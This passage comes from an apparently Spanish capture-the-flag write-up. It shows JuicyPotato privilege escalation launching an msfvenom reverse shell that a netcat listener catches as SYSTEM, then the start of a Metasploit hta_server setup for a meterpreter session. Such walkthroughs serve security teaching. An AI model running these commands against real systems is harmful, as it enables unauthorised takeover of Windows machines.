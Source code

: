 Si estás usando una **Reverse Shell** que tú creaste con **msfvenom**, modifica el comando para que quede de esta manera:
```batch
./JuicyPotato.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Windows\Temp\shell.exe" -c "{9B1F122C-2982-4e91-AA8B-E071D54F2A4D}"
```

Y observa el resultado:
```batch
rlwrap nc -nlvp 1337
listening on [any] 1337 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.010] 49194
Microsoft Windows [Versi�n 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Ya solo buscamos la flag del **Administrador**:
```batch
C:\Windows\system32>cd C:\Users\Administrador\Desktop
cd C:\Users\Administrador\Desktop
C:\Users\Administrador\Desktop>type root.txt
type root.txt
...
```
Hemos completado la máquina.

<h2 id="Metasploit">Obteniendo Sesión de Meterpreter con Módulo hta_server y Buscando Vulnerabilidades con Módulo local_exploit_suggester</h2>

Digamos que, una vez dentro, queremos obtener una sesión de **meterpreter**.

Podemos usar el módulo `exploit/windows/misc/hta_server` para mandarnos una sesión desde la máquina víctima a nuestra sesión de **metasploit** usando la herramienta **mshta.exe**.

Pero primero, comprobemos que tengamos **mshta.exe** en la máquina víctima (que debería estar):
```batch
PS C:\Windows\Temp> dir C:\Windows\System32\mshta.exe

    Directorio: C:\Windows\System32

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        14/07/2009      3:39      43520 mshta.exe
```
Lo tenemos y parece que si lo podemos usar.

Inicia **metasploit** y busca el módulo **hta_server**:
```bash
msf6 > search hta_server

Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  exploit/windows/misc/hta_server  2016-10-06       manual  No     HTA Web Server

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/hta_server) >
```
